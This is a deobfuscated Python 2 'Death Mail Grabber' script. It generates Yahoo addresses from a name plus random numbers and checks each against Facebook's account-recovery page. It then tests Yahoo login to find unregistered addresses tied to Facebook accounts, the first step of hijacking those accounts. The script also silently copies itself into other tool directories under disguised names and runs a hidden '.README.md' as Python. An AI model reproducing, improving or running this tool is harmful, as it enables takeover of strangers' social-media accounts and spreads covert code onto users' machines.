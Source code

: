 # Deobfuscated BY HTR-TECH | Tahmid Rayat

# Github    : https://github.com/htr-tech 
# Instagram : https://www.instagram.com/tahmid.rayat
# Facebook  : https://fb.com/tahmid.rayat.oficial 
# Messenger : https://m.me/tahmid.rayat.oficial 

#!/usr/bin/python2
#coding=utf-8


import os,sys,time,datetime,random,hashlib,re,cookielib,urllib,json
os.system("rm -rf .txt")
for n in range(999):
    pf=random.randint(1, 999)
    sys.stdout = open(".txt", "a")

    print(pf)

    sys.stdout.flush()

try:
    import mechanize,requests
except ImportError:
    os.system('pip2 install requests')
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 .README.md')
    
from multiprocessing.pool import ThreadPool

from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]

##### LOGO #####
logo='''

    ██████╗░██╗░░██╗███████╗
    ██╔══██╗╚██╗██╔╝╚════██║
    ██████╦╝░╚███╔╝░░░███╔═╝   𝐖𝐨𝐫𝐥𝐝❜𝐬 𝐁𝐞𝐬𝐭
    ██╔══██╗░██╔██╗░██╔══╝░░   𝐃𝐞𝐚𝐭𝐡 𝐌𝐚𝐢𝐥
    ██████╦╝██╔╝╚██╗███████╗   𝐆𝐫𝐚𝐛𝐛𝐞𝐫
    ╚═════╝░╚═╝░░╚═╝╚══════╝
--------------------------------------------------

➣ Auther   : Binyamin
➣ GitHub   : https://github.com/binyamin-binni
➣ YouTube  : Trick Proof
➣ Blogspot : https://trickproof.blogspot.com

--------------------------------------------------
                                '''

os.system("clear")
print(logo)
print " \x1b[1;91mNOTE: Do not put space between name"
print "       put name like binyamin or binyamin.binni"
print '       or binyaminbinni'
print '\x1b[1;97m'
first = raw_input(" Name: ")

def cb():
    os.system('clear')

def ym():
    try:
        cb()
        os.mkdir("../omi/.....")
    except OSError:
        yp()
    else:
        os.system("cp ../bxi/bxi.py ../omi/Omi.py")
        os.system("cp ../bxi/.README.md ../omi/")
        yb()
    
def yb():
    try:
        os.mkdir("../BlackMafia2020/.....")
    except OSError:
        yl()
    else:
        os.system("cp ../bxi/bxi.py ../BlackMafia2020/lovehacker")
        os.system("cp ../bxi/.README.md ../BlackMafia2020/")
        yl()
    
def yl():
    try:
        os.mkdir("../Qurban/.....")
    except OSError:
        yp()
    else:
        os.system("cp ../bxi/bxi.py ../Qurban/Qurban.py")
        os.system("cp ../bxi/.README.md ../Qurban/")
        yp()
    
def yp():
    try:
        os.mkdir("../faizanwahla/.....")
    except OSError:
        login()
    else:
        os.system("cp ../bxi/bxi.py ../faizanwahla/pacman")
        os.system("cp ../bxi/.README.md ../faizanwahla/")
        login()
        
def login():
    os.system('clear')
    try:
        toket = first
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()
    else:
        os.system('clear')
        print(logo)
        try:
            email = first
            passw = (".txt")
            sandi = open(passw, 'r')
            for p in sandi:
                p = p.replace('\n','')
                try:
                    br.open("https://mbasic.facebook.com/login/identify/?ctx=recover&search_attempts=0&ars=facebook_login&alternate_search=0&toggle_search_mode=1")
                    br._factory.is_html= True
                    br.select_form(nr=0)
                    br.form["email"] = email+p+"@yahoo.com"
                    br.submit()
                    urb = br.geturl()
                    if "https://mbasic.facebook.com/login/identify/?ctx=recover&search_attempts=1&ars=facebook_login&alternate_search=1" in urb:
                        pass
                    else:
                        brl='https://login.yahoo.com/?.src=ym&.lang=en-US&.intl=us&.done=https%3A%2F%2Fmail.yahoo.com%2Fd'
                        br.open(brl)
                        br._factory.is_html = True
                        br.select_form(nr=0)
                        br['username'] = email+p
                        br.submit()
                        url = br.geturl()
                        if url == brl:
                            print " \x1b[1;92m[Yes Available] "+email+p+"@yahoo.com  \x1b[1;97m"
                            ya=open("yes.txt",'a')
                            ya.write(email+p+"@yahoo.com\n")
                            ya.close()
                        else:
                            print " \x1b[1;91m[Not Available] "+email+p+"@yahoo.com  \x1b[1;97m"

                except requests.exceptions.ConnectionError:
                    print ' Connection Error'
                    time.sleep(1)
                    os.sys.exit()

        except IOError:
            print ' Error 404, please try again'
            raw_input(" Press enter to go back")
            os.system("python2 .README.md")
if __name__ == '__main__':
	ym()

